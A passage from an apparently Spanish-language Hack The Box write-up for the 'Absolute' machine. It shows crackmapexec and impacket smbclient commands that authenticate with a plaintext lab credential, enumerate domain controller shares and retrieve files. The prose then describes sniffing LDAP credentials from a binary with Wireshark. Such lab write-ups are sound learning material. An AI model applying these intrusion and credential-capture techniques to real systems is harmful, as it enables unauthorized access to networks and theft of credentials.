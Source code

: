 ```shell
❯ crackmapexec smb 10.10.11.181 -u svc_smb -p AbsoluteSMBService123!
SMB         10.10.11.181    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\svc_smb:AbsoluteSMBService123! STATUS_ACCOUNT_RESTRICTION 
```
Podemos ver la misma restricción como el usuario klay por lo que volvemos a repetir los pasos para generar el ticket.

```shell
❯ python3 /opt/impacket/examples/smbclient.py svc_smb@dc.absolute.htb -k -no-pass
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
Shared
SYSVOL
# use Shared
# ls
drw-rw-rw-          0  Thu Sep  1 12:02:23 2022 .
drw-rw-rw-          0  Thu Sep  1 12:02:23 2022 ..
-rw-rw-rw-         72  Thu Sep  1 12:02:23 2022 compiler.sh
-rw-rw-rw-      67584  Thu Sep  1 12:02:23 2022 test.exe
```
Aquí encontramos dos archivos, compiler.sh y test.exe que procedemos a descargar para saber que es lo que hacen. Nos abrimos nuestra máquina windows, al ejecutar el programa pareciera que no hace nada importante. Con ghidra no se encuentra algo útil, por lo que ponemos a prueba el binario. Primero nos conectamos a la vpn en nuestra máquina windows, después ponemos los dominios en el hosts de windows y con ayuda de wireshark interceptamos alguna petición de la red de la máquina. Con esto logramos interceptar unas credenciales que se autentican en el servicio ldap.

![imagen3](/assets/images/Absolute/absolute3.png)
